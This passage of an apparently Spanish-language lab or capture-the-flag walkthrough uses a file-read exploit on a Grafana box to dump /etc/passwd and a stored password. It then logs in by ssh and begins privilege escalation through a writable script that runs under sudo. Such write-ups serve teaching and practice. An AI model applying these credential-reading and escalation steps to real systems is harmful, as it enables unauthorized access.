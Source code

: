 ```
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
ftp:x:101:104:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
grafana:x:103:105::/usr/share/grafana:/bin/false
freddy:x:1000:1000::/home/freddy:/bin/bash
```
Vemos que el exploit nos permite leer archivos del sistema y recordemos que en el puerto 80 nos ponía una ruta para visitar **/tmp/pass.txt**.
```
Read file > /tmp/pass.txt
t9sH76gpQ82UFeZ3GXZS
```
Ahora mismo tenemos una contraseña y cuando hemos leído el **/etc/passwd** había un usuario llamado **freddy**, así que podemos probar a conectarnos por **ssh** con estas credenciales.
```bash
ssh freddy@172.17.0.2
```
Efectivamente, con estas credenciales tenemos acceso por ssh al usuario freddy.
```
┌──(freddy㉿2742d7ddff34)-[~]
└─$ whoami                                                                                                                                                                                                                                 
freddy
```
## Escalada de privilegios.
Una vez dentro, empezamos con la escalada de privilegios viendo si tenemos algún archivo que podemos utilizar con permisos de root desde el usuario **freddy**.
```
┌──(freddy㉿2742d7ddff34)-[~]
└─$ sudo -l                                                                                                                                                                                                                                
Matching Defaults entries for freddy on 2742d7ddff34:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User freddy may run the following commands on 2742d7ddff34:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/maintenance.py

```
```
──(freddy㉿2742d7ddff34)-[~]
└─$ ll /opt/maintenance.py 
-rw-r--r-- 1 freddy freddy 35 Mar 29 09:29 /opt/maintenance.py
```
